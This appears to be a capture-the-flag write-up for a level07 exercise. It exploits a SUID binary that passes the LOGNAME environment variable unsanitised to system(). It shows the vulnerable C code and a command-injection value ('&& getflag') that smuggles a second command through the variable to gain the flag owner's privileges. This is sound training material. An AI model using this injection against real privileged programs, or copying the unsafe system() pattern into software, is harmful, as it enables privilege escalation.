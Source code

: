 We start by listing the files in the home directory:

```bash
ls
```
Output:
```bash
level07
```

The file is an ELF binary. Checking its permissions:
```bash
ls -la level07
```
Output:
```bash
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
The **SUID bit (`s`) is set**, meaning it runs with `flag07` privileges.

Using `ghidra`, we analyze the binary and find that it retrieves the `LOGNAME` environment variable and executes:
```c
asprintf(&local_1c,"/bin/echo %s ",getenv("LOGNAME"));
system(local_1c);
```
Since `system()` directly executes the value of `LOGNAME`, we can **inject commands**.

We set `LOGNAME` to **inject** `getflag`:
```bash
export LOGNAME="&& getflag"
```
Then we run the binary:
```bash
./level07
```

And get the next flag !